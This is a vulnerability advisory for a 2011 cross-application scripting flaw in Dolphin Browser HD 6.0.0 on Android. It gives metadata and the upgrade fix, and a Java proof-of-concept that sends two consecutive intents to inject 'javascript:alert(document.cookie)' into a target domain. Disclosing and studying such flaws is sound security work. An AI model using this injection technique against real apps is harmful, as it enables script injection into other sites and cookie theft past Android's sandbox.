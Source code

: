 ```yaml
---
layout: vuln
credit:
    - roeeh
    - yair
timeline:
    - type: 'add'
      date: '2017-03-01'
    - type: 'release'
      date: '2011-09-20' 
alephid: ALEPH-2011006
date: '2011-09-20'
title: 'Dolphin Browser HD Cross-Application Scripting'
severity: high
product:
    - Dolphin Browser HD
vulnerable:
    - Version 6.0.0
mitigation: 
    - Install version 6.1.0 or later. 
references:
    - src: Android Browser XAS paper
      url: http://blog.watchfire.com/files/advisory-android-browser.pdf
 
---
```

A 3rd party application may exploit Dolphin Browser HD's URL loading process in order to inject JavaScript code into an arbitrary domain thus break Android's sandboxing. This can be done by sending two consecutive startActivity calls. The first call includes the attacked domain, and causes Dolphin Browser HD to load it, while the second call contains JavaScript code. the JavaScript URI will be opened under the current tab, i.e. the attacked domain.

## Proof-of-Concept ##
```java
public class CasExploit extends Activity
{
    static final String mPackage = "mobi.mgeek.TunnyBrowser";
    static final String mClass = "BrowserActivity";
    static final String mUrl = "http://target.domain/";
    static final String mJavascript = "alert(document.cookie)";
    static final int mSleep = 15000;

    @Override
    public void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.main);
        startBrowserActivity(mUrl);
        
        try {
            Thread.sleep(mSleep);
        }
        
        catch (InterruptedException e) {}
        startBrowserActivity("javascript:" + mJavascript);
    }
    private void startBrowserActivity(String url) {
        Intent res = new Intent("android.intent.action.VIEW");
        res.setComponent(new ComponentName(mPackage,mPackage+"."+mClass));
        res.setData(Uri.parse(url));
        startActivity(res);
    }
}
```
